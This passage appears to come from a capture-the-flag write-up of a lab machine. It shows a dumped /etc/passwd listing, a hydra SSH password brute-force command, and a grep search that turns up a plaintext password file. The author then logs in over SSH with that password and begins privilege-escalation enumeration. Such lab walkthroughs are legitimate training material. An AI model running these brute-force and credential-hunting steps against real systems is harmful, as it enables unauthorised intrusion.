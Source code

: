    ``` sh
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
    aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
    mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
   ```

The /home path shows one user "aubreanna" so let's use this to crack ssh using hydra:

``` sh
hydra -l aubreanna -P rockyou.txt 10.10.156.30 ssh
```

In parallel we can look for files containing "aubreanna":

``` sh
find ./ -type f -iname "*.txt" -exec grep -l "aubreanna" {} \; 2>/dev/null
./opt/wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

## Aubreanna

So let's login via aubreanna:```ssh aubreanna@10.10.156.30``` and we find the first flag (user.txt) in the home dir.

Unfortunately```sudo -l``` is not allowed

``` sh
aubreanna@internal:~$ sudo -l
[sudo] password for aubreanna:
Sorry, user aubreanna may not run sudo on internal.
aubreanna@internal:~$ id
uid=1000(aubreanna) gid=1000(aubreanna) groups=1000(aubreanna),4(adm),24(cdrom),30(dip),46(plugdev)
```

Let's try running linpeas on the system to find something interesting:
